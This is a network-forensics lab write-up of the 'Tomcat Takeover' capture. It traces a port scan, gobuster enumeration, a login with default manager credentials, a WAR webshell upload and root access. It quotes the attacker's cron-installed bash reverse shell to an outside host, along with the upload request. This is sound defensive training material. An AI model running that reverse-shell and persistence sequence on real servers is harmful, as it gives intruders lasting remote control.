# 🐱 Tomcat Takeover — Network Forensics Investigation


-success)

> **Lab:** [Tomcat Takeover Lab](https://cyberdefenders.org/) — Practice → SOC Analyst Tier 1 → Level 2
> **Scenario:** Analyze network traffic using Wireshark's custom columns, filters, and statistics to identify suspicious web server administration access and a potential full compromise of an Apache Tomcat server.
> **Questions Solved:** 8/8 (100%)

---

## 📌 Table of Contents
- [Lab Overview](#-lab-overview)
- [Traffic Statistics](#-traffic-statistics)
- [Key Indicators of Compromise (IOCs)](#-key-indicators-of-compromise-iocs)
- [MITRE ATT&CK Mapping](#-mitre-attck-mapping)
- [Wireshark Filters Used](#-wireshark-filters-used)
- [Conclusion & Takeaways](#-conclusion--takeaways)

---

## 🧾 Lab Overview

| Field | Value |
|---|---|
| **Lab Name** | Tomcat Takeover Lab |
| **Category** | Network Forensics |
| **Tactics Covered** | Reconnaissance, Discovery, Credential Access, Execution, Privilege Escalation, Persistence, Command & Control |
| **Tools Used** | Wireshark, NetworkMiner, CyberChef, AbuseIPDB |
| **Difficulty** | Easy (Retired) |
| **Evidence** | `web server.pcap` |



---

## 🗂️ Evidence File Details

Captured from Wireshark's **Capture File Properties** window:

| Property | Value |
|---|---|
| **File Name** | `web server.pcap` |
| **File Size** | 2,283 KB |
| **SHA256** | `9a8dbb2ec468166ff541f8f307544a5ceb07ce702f36d36fd8ae964bcb53f716` |
| **SHA1** | `37bd5572409a95de3c9c8127e724416302288777` |
| **Encapsulation** | Ethernet |
| **First Packet** | 2023-09-10 23:43:06 |
| **Last Packet** | 2023-09-10 23:57:37 |
| **Capture Duration** | 00:14:30 |
| **Total Packets** | 21,070 |
| **Total Bytes** | 1,946,611 (~1.9 MB) |
| **Avg. Packets/sec** | 24.2 |
| **Avg. Bits/sec** | 17 kbps |



---

## 📊 Traffic Statistics

### Protocol Hierarchy
| Protocol | Packets | % Packets | Bytes | Notes |
|---|---|---|---|---|
| Ethernet / IPv4 | 21,070 | 100% | 1,946,611 | Base layer |
| **TCP** | 21,066 | ~99.98% | 486,012 | Dominant transport |
| ↳ HTTP | 258 | 1.2% | 80,525 | Web/Tomcat traffic (recon + attack) |
| ↳ SSH | 588 | 2.8% | 40,568 | Internal admin access |
| ↳ SMB2 (over NetBIOS) | 104 | 0.5% | 15,803 | Internal file-share auth |
| **UDP** | 4 | ~0.02% | 32 | NetBIOS/mDNS broadcast noise |



### Top Conversations (IPv4)
| Address A | Address B | Packets | Bytes | Verdict |
|---|---|---|---|---|
| **14.0.0.120** | **10.0.0.112** | 19,607 | ~2 MB | 🔴 **Malicious — full attack chain** |
| 10.0.0.115 | 10.0.0.112 | 1,323 | 378 KB | 🟢 Legit admin/management traffic |
| 10.0.0.115 | 10.0.0.105 | 136 | 25 KB | 🟢 Internal SMB/NTLM auth (benign) |
| 10.0.0.105 | 10.0.0.255 | 2 | 545 B | ⚪ Broadcast noise |
| 10.0.0.106 / .115 | 224.0.0.251 | 1 each | ~247 B | ⚪ mDNS noise |



### Top TCP Streams (by bytes)
| Src IP:Port | Dst IP:Port | Packets | Bytes | Stream # | Purpose |
|---|---|---|---|---|---|
| 10.0.0.115:42224 | 10.0.0.112:8080 | 250 | 179 KB | 5 | Admin HTTP session |
| 10.0.0.115:57784 | 10.0.0.112:8080 | 133 | 94 KB | 2 | Admin HTTP session |
| 14.0.0.120:37736 | 10.0.0.112:8080 | 105 | 81 KB | 9456 | 🔴 Attacker — Tomcat Manager access |
| 10.0.0.115:44606 | 10.0.0.105:22 | 545 | 60 KB | 1 | SSH (internal) |
| 14.0.0.120:37644 | 10.0.0.112:8080 | 66 | 43 KB | **9446** | 🔴 Attacker — gobuster scan |
| 10.0.0.115:41330 | 10.0.0.105:445 | 136 | 25 KB | 0 | SMB (internal) |

> ⚠️ **Total TCP conversations: 9,465** — an abnormally high number for a 14-minute capture, driven almost entirely by hundreds of short 2-packet/120-byte connections from **14.0.0.120** to a wide spread of ports (21, 25, 113, 139, 199, 443, 3306, 5900, 8009…). This pattern is a classic **TCP port-scan signature**.



---

## 🚨 Key Indicators of Compromise (IOCs)

| Type | Indicator | Details |
|---|---|---|
| **Attacker IP** | `14.0.0.120` | Guangzhou, China — CHINANET Guangdong Province Network, ASN owner domain `chinatelecom.cn` |
| **Victim / Web Server** | `10.0.0.112` | Apache Tomcat/7.0.88, Coyote/1.1, Ubuntu Linux, kernel `6.2.0-32-generic`, `amd64`, hostname `cyberdefenders-virtual-machine` |
| **Open Ports (victim)** | `22` (SSH), `8009` (AJP13), `8080` (HTTP/Tomcat) | Confirmed via SYN-ACK filter — all other scanned ports were closed/refused |
| **Scanning Tool** | `gobuster/3.6` | Identified via `User-Agent` header in HTTP requests |
| **Attacker Browser** | Firefox 115.0 / Linux x86_64 | `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` |
| **Compromised Credentials** | `admin : tomcat` | Basic Auth header `Basic YWRtaW46dG9tY2F0` decoded via CyberChef `From Base64` |
| **Malicious Payload** | `JXQOZY.war` | Uploaded via Tomcat Manager, deployed to context path `/JXQOZY/` |
| **Embedded Webshell** | `rzpmxxmm.jsp` | JSP found inside the WAR's ZIP structure (`PK..` magic bytes) |
| **Session Cookies** | `JSESSIONID=0DE586F27B2F48D0CA045F731E0E9E71` → `AC3CF46F608CD09D04A2FF7BE43A3FDC` | Pre/post-deployment session tokens |
| **CSRF Nonce** | `83EDF4E2462ECC725BAF342DD7A46974` | Captured in the upload POST URI |
| **C2 / Reverse Shell** | `14.0.0.120:443` | Cron-based reverse shell beacon (`bash -i >& /dev/tcp/14.0.0.120/443 0>&1`) |
| **Privilege Level Gained** | `root` | Confirmed via `whoami` in the shell session — Tomcat service was misconfigured to run as root |
| **AbuseIPDB Verdict** | Not listed, 0% confidence | ⚠️ Reputation lookups alone would **not** have flagged this attacker |

---

## ⏱️ Attack Timeline / Kill Chain

### 1️⃣ Reconnaissance — Port Scanning
`14.0.0.120` sweeps `10.0.0.112` across dozens of ports (21, 22, 25, 113, 139, 199, 443, 3306, 5900, 8009, 8080…). Filtering for SYN-ACK responses from the victim reveals only **three ports open**: `22`, `8009`, and `8080`.

```
ip.src == 10.0.0.112 && ip.dst == 14.0.0.120 && tcp.flags == 0x0012
```



### 2️⃣ Discovery — Directory / Content Enumeration
Attacker runs **gobuster v3.6** against `http://10.0.0.112:8080/`, brute-forcing default Tomcat paths.

```
(ip.addr == 14.0.0.120) && (http.request.method == "GET")
```

Notable discovered paths: `/admin`, `/admin-console`, `/docs/`, `/examples/`, `/examples/servlet/org.apache.catalina.INVOKER.*` (Tomcat sample apps), and eventually `/JXQOZY/` (the attacker's own deployed app, seen later).



Following the stream confirms the tool fingerprint and Tomcat version banner:

```
User-Agent: gobuster/3.6
Server: Apache-Coyote/1.1
<title>Apache Tomcat/7.0.88</title>
```



### 3️⃣ Threat Intel Check
A quick AbuseIPDB lookup on `14.0.0.120` returns **0% abuse confidence** and no prior reports — a reminder that IP reputation alone is not a reliable detection method.



### 4️⃣ Credential Access — Tomcat Manager Login
Attacker authenticates to `/manager/html` using HTTP Basic Auth. The `Authorization` header is captured in plaintext:

```
Authorization: Basic YWRtaW46dG9tY2F0
```



Decoding in **CyberChef** (`From Base64`) instantly reveals the weak/default credential pair:

```
admin:tomcat
```



### 5️⃣ Discovery — Server Fingerprinting
With valid manager credentials, the attacker pulls the **Tomcat status page**, leaking the full server fingerprint:

| Field | Value |
|---|---|
| Tomcat Version | Apache Tomcat/7.0.88 |
| JVM Version | 11.0.20.1+1-post-Ubuntu-0ubuntu122.04 |
| OS | Linux |
| Kernel | 6.2.0-32-generic |
| Architecture | amd64 |
| Hostname | cyberdefenders-virtual-machine |

### 6️⃣ Execution — Malicious WAR Upload (RCE)
Using the stolen credentials, the attacker uploads a weaponized WAR archive through the Manager's deploy endpoint:

```
POST /manager/html/upload;jsessionid=...&CSRF_NONCE=83EDF4E2462ECC725BAF342DD7A46974
Content-Disposition: form-data; name="deployWar"; filename="JXQOZY.war"
```



Following the full stream shows the raw ZIP/WAR payload, including `WEB-INF/web.xml` and a JSP webshell named **`rzpmxxmm.jsp`**, followed by a `200 OK` confirming successful deployment:



Tomcat auto-creates a new web context from the WAR filename — the attacker verifies it's live:

```
GET /JXQOZY/ HTTP/1.1
```

### 7️⃣ Privilege Escalation / Execution — Root Shell
Interacting with the deployed webshell, the attacker immediately confirms elevated privileges:

```
$ whoami
root
```

This confirms the Tomcat service itself was **misconfigured to run as root** — a critical finding, since compromising the web app was enough to gain full system control with no further escalation needed.

### 8️⃣ Persistence & Command and Control — Cron Reverse Shell
The attacker moves to `/tmp` and installs a scheduled reverse shell beacon:

```bash
cd /tmp
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
crontab -i cron
crontab -l
```

This guarantees the attacker regains a shell back to **`14.0.0.120:443`** every single minute — a resilient, low-noise C2 channel.

